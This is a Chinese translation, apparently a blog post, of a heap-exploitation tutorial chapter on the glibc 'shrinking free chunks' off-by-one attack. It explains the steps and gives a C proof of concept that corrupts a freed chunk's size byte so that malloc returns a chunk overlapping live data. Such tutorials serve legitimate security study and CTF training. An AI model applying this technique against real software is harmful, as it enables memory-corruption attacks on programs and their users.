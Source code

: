 ```yaml
---
title: Heap Exploitation系列翻译-12 Shrinking Free Chunks
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```

# Shrinking Free Chunks

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这项攻击在'[Glibc Adventures: The Forgotten Chunk](http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)'中有详细描述. 它是利用单字节堆溢出(通常也被称作 '[off by one](https://en.wikipedia.org/wiki/Off-by-one_error)'). 这项攻击技术的目标是让'malloc'返回一个跟某一已分配堆块重叠的堆块, 该堆块目前也处在使用状态. 起始在内存中的3块连续堆块(`a`, `b`, `c`)被分配出来并且中间那块已经被释放了. 第一块堆块存在溢出漏洞, 可以利用溢出覆写中间堆块的'size'. 攻击者的最低有效字节是0, 也就'缩减'了堆块的大小. 接下来,从中间的空闲堆块中分配出两个small chunks(`b1` 和 `b2`). 第三个堆块的`prev_size`并没有得到更新, 因为`b`+`b->size`已经不再指向`c`, 实际上它指向的是在`c`之前的一块内存区域. 之后, `b1`和`c`都被释放, `c`仍旧认定`b`是处于空闲的(这是因为`prev_size`并没有更新,因此`c`-`c->prev_size`依旧指向`b`)并与`b`进行合并. 这也就导致了生成一个起始于`b`大空闲块并同时与`b2`相重叠了. 一个新的malloc将这个大堆块返回回来, 从而完成这项攻击. 下图总结了这些步骤:

![Summary of shrinking free chunks attack steps](https://heap-exploitation.dhavalkapil.com/assets/images/shrinking_free_chunks.png)

_图片来源: https://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf_

考虑以下示例代码(下载完整版本: [这里](https://heap-exploitation.dhavalkapil.com/assets/files/shrinking_free_chunks.c))


```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[19];               // padding
};

void *a, *b, *c, *b1, *b2, *big;
struct chunk_structure *b_chunk, *c_chunk;

// Grab three consecutive chunks in memory
a = malloc(0x100);                            // at 0xfee010
b = malloc(0x200);                            // at 0xfee120
c = malloc(0x100);                            // at 0xfee330

b_chunk = (struct chunk_structure *)(b - 2*sizeof(size_t));
c_chunk = (struct chunk_structure *)(c - 2*sizeof(size_t));

// free b, now there is a large gap between 'a' and 'c' in memory
// b will end up in unsorted bin
free(b);

// Attacker overflows 'a' and overwrites least significant byte of b's size
// with 0x00. This will decrease b's size.
*(char *)&b_chunk->size = 0x00;

// Allocate another chunk
// 'b' will be used to service this chunk.
// c's previous size will not updated. In fact, the update will be done a few
// bytes before c's previous size as b's size has decreased.
// So, b + b->size is behind c.
// c will assume that the previous chunk (c - c->prev_size = b/b1) is free
b1 = malloc(0x80);                           // at 0xfee120

// Allocate another chunk
// This will come directly after b1
b2 = malloc(0x80);                           // at 0xfee1b0
strcpy(b2, "victim's data");

// Free b1
free(b1);

// Free c
// This will now consolidate with b/b1 thereby merging b2 within it
// This is because c's prev_in_use bit is still 0 and its previous size
// points to b/b1
free(c);

// Allocate a big chunk to cover b2's memory as well
big = malloc(0x200);                          // at 0xfee120
memset(big, 0x41, 0x200 - 1);

printf("%s\n", (char *)b2);       // Prints AAAAAAAAAAA... !
```

`big`现在指向一开始的`b`堆块并且与`b2`重叠. 更改`big`的内容会改变`b2`的内容, 即时两个堆块都不会被释放.

值得注意的是, 与缩减`b`块相反, 攻击者其实也可以增加`b`块的大小. 这也同样可以造成类似情况的重叠. 当'malloc'申请另一个更大的堆块, `b`就会用于满足这个申请需求, 这样`c`的内存也会作为新堆块的一部分返回回来.

